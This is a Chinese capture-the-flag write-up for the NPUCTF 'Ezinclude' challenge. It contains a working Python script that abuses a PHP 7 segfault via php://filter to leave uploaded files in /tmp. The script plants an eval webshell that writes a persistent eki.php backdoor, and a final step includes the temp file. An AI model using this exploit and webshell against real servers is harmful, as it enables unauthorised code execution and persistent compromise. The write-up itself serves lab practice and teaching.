 # NPUCTF

## Ezinclude

刚开始貌似是个逻辑漏洞

随便填个东西，在Request里就可以看到hash，然后用那个当passwd即可

第二步include 

- 利用点 php7 segment fault 导致文件被保存在/tmp/phpXXXXXX下

爆破半天，发现有dir.php可以看/tmp目录下文件。。。。

网上找到一个脚本魔改了一下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string
import itertools
import time

charset = string.digits + string.letters

base_url = "http://6a1c86d0-5362-4d88-b33e-7514e488b64c.node3.buuoj.cn"


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        #print url
        response = requests.post(url, files=files,allow_redirects=False)
        #print response.text
    except Exception as e:
        print e


def generate_tmp_files():
    webshell_content = "<?php eval($_REQUEST['eki']);?>".encode(
        "base64").strip().encode("base64").strip().encode("base64").strip()
    #file_content = '<?php if(file_put_contents("/tmp/eki", base64_decode("%s"))){echo "flag";}?>' % (
    #    webshell_content)
    
    file_content =  "<?php eval($_REQUEST['eki']); file_put_contents('./eki.php',\"<?php eval(\$_REQUEST['eki']); echo 123;?>\"); echo eki;?>"# 为啥这样写是因为一开始蚁剑始终连不上....

    phpinfo_url = "%s/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd" % (
        base_url)
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)
        time.sleep(0.5)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```

然后``GET /flflflflag.php?file=/tmp/phpXXXXXX`` 看到返回``eki``,shell``eki.php``就生成了
